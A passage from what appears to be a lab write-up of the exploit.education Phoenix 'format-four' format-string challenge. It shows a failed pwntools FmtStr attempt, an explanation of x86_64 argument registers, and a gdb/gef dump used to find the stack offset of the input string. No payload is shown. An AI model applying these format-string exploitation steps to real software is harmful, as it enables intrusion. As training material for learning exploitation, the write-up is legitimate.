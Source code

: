 ```
>>> p = process('./format-four')
[x] Starting local process './format-four'
[+] Starting local process './format-four': pid 922
>>> def send_payload(payload):
...     p.recvline()
...     p.sendline(payload)
...     return p.recv()
... 
>>> res = FmtStr(execute_fmt=send_payload)
[*] Process './format-four' stopped with exit code 0 (pid 922)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/local/lib/python2.7/dist-packages/pwnlib/fmtstr.py", line 218, in __init__
    self.offset, self.padlen = self.find_offset()
  File "/usr/local/lib/python2.7/dist-packages/pwnlib/fmtstr.py", line 237, in find_offset
    leak = pack(leak)
  File "/usr/local/lib/python2.7/dist-packages/pwnlib/util/packing.py", line 140, in pack
    raise ValueError("pack(): number does not fit within word_size [%i, %r, %r]" % (0, number, limit))
ValueError: pack(): number does not fit within word_size [0, 140737354128396, 4294967296]
```

Ooops, pwntools did not like it. Well, let's do it manually then. The System V ABI for x86_64 architecture specifies that the first 6 arguments are passed in the following registers, respectively : `rdi, rsi, rdx, rcx, r8, r9`. If more arguments are needed, the stack is used. To find the good offset to reach the beginning of the input string, we need to find where the string is stored on the stack. Let's use gef :

```
(gdb) r
Starting program: /opt/phoenix/amd64/format-four 
Welcome to phoenix/format-four, brought to you by https://exploit.education
aaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x0000000000400635 in bounce ()
──────────────────────────────────────────── registers ───────
[...]
──────────────────────────────────────────── stack ───────────
0x00007fffffffd630│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffd638│+0x0008: 0x00007fffffffd660  →  "aaaaaaaaaaaaaaaaaaaaaaa"
0x00007fffffffd640│+0x0010: 0x00007fffffffe660  →  0x0000000000000001	 ← $rbp
0x00007fffffffd648│+0x0018: 0x00000000004006b5  →  <main+89> mov eax, 0x0
0x00007fffffffd650│+0x0020: 0x00007fffffffe6b8  →  0x00007fffffffe8a9  →  "/opt/phoenix/amd64/format-four"
0x00007fffffffd658│+0x0028: 0x0000000100000000
0x00007fffffffd660│+0x0030: "aaaaaaaaaaaaaaaaaaaaaaa"	 ← $rdi
0x00007fffffffd668│+0x0038: "aaaaaaaaaaaaaaa"
──────────────────────────────────────────── code:x86:64 ─────
     0x400629 <bounce+12>      mov    rax, QWORD PTR [rbp-0x8]
     0x40062d <bounce+16>      mov    rdi, rax
     0x400630 <bounce+19>      mov    eax, 0x0
 →   0x400635 <bounce+24>      call   0x400460 <printf@plt>
   ↳    0x400460 <printf@plt+0>   jmp    QWORD PTR [rip+0x200572]        # 0x6009d8 <printf@got.plt>
        0x400466 <printf@plt+6>   push   0x0
        x40046b <printf@plt+11>  jmp    0x400450
        0x400470 <puts@plt+0>     jmp    QWORD PTR [rip+0x20056a]        # 0x6009e0 <puts@got.plt>
        0x400476 <puts@plt+6>     push   0x1
        0x40047b <puts@plt+11>    jmp    0x400450
──────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00007fffffffd660 → "aaaaaaaaaaaaaaaaaaaaaaa"
)
```
